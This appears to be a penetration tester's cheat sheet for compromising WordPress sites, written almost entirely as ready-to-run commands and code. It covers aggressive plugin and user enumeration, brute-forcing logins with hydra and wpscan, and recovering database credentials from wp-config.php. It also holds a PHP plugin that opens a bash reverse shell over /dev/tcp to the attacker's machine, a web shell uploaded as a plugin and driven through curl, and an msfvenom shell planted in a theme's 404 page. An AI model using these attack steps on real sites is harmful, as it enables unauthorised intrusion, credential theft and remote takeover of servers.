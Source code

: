 #### WPScan
```bash - kali
wpscan -e ap,at,tt,cb,dbe,u,m --detection-mode aggressive --plugins-detection aggressive -t 30 --url http://$TARGET
```
#### Password Cracking
```bash - kali
wpscan --url http://$TARGET -U admin -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt
```
#### wp-config.php.swp file
```bash - kali
vim -r wp-config.php.swp
```
```bash - kali
esc
```
```bash - kali
:w wp-config.txt
```
Now view the contents much easier in wp-config.txt file.
#### WORDPRESS PLUGIN SHELL
[https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell](https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell)
```bash - kali
mousepad reverseshell-plugin.php
```
```php
<?php
/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: [http://www.sevenlayers.com](http://www.sevenlayers.com)
*/
exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");
?>
```
```bash - kali
zip reverseshell-plugin.zip ./reverseshell-plugin.php
```
![[1._rlwrap]]
Plugins > Add new > Upload > Install now
* If this fails, try doing [[Wordpress#Webshell method]]
Now just click on "Activate Plugin" and done!
#### Webshell method
```
cp /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php .
```
```
sudo zip plugin-shell.zip plugin-shell.php
```
WordPress > Plugins > add New > Upload > Browse > plugin-shell.zip > Install now
Even if this says it failed to install, STILL RUN THE CURL COMMAND!
>curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
#### php template shell
```bash - kali
msfvenom -p php/reverse_php lhost=$KALI lport=443 -f raw
```
In WordPress, go to Appearance > Theme Editor, choose a page to edit, here we try the 404 page.
After updating, just access a non-existing page to trigger reverse shell.
#### Finding usernames & passwords:
```bash - kali
cd /var/www/html/wordpress
```
```bash
cat wp-config.php | grep DB
```
#### hydra command against wordpress:
```bash - kali
hydra -L users -P /usr/share/wordlists/rockyou.txt $TARGET -s 80 http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect' -f
```
FROM BURP
>
log=webdeveloper&pwd=root&wp-submit=Log+In&redirect_to=http%3A%2F%2F$TARGET%2Fwp-admin%2F&testcookie=1
```bash - kali
hydra -l webdeveloper -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt $TARGET -s 80 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -f
```
![[Port 3306 - MySQL ~#MySQL to Wordpress password]]
[[3._LFI RFI#Wordpress config php]]